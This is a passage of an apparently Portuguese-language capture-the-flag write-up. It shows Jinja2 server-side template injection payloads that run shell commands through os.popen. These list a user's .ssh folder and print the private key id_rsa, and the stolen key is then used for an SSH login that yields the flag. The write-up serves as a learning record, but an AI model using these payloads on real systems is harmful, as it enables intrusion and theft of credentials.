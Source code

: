 drwxrwxr-x 3 duck duck 4.0K Aug 21 20:45 .local 

drwxrwxr-x 2 duck duck 4.0K Aug 14 09:14 manutencao 

-rw-r--r-- 1 duck duck 807 Aug 14 08:48 .profile 

drwx------ 2 duck duck 4.0K Aug 14 08:50 .ssh 

-rw-rw-r-- 1 root root 27 Aug 22 00:37 wtduck.txt 

-rw-rw-r-- 1 duck duck 48K Aug 22 17:48 .zcompdump


`{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck/.ssh').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2svLnNzaCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh

![ssti_ls4](https://github.com/user-attachments/assets/a262b00b-1205-47d4-9a16-60a892dd3aaa)

Organizado:
total 20K 

drwx------ 2 duck duck 4.0K Aug 14 08:50 . 

drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 .. 

-rw-rw-r-- 1 duck duck 570 Aug 14 08:50 authorized_keys 

-r-------- 1 duck duck 2.6K Aug 14 08:49 id_rsa 

-r--r--r-- 1 duck duck 570 Aug 14 08:49 id_rsa.pub


`{{config.__class__.__init__.__globals__['os'].popen('cat /home/duck/.ssh/id_rsa').read()}}`:703b179695b26fc01e4b18e3e605de2a
(base64) -> e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgL2hvbWUvZHVjay8uc3NoL2lkX3JzYScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh

![id_rsa](https://github.com/user-attachments/assets/df5fbc76-cace-45dd-8570-6d4ddac07806)

copiar para id_rsa

`chmod 600 id_rsa`

`ssh -i id_rsa duck@tribopapaxota.org`


![duck](https://github.com/user-attachments/assets/ba7ce33b-060d-43f3-885d-a4e74f86fb9e)

QUACK{duck_h45_b33n_pwn3d}


Tive que deixar uma mensagem :)

![duck_message](https://github.com/user-attachments/assets/33a5cc90-8d11-4e8e-a39a-1d9c366467f4)

## **Task Linux - Root**
**WOOP WOOP GOT ROOT?** Suba ao topo da hierarquia e governe o sistema.
### **Resposta**
**Foram 3 dias de muito aprendizado e conhecimento adquirido, muitas tentativas e erros**
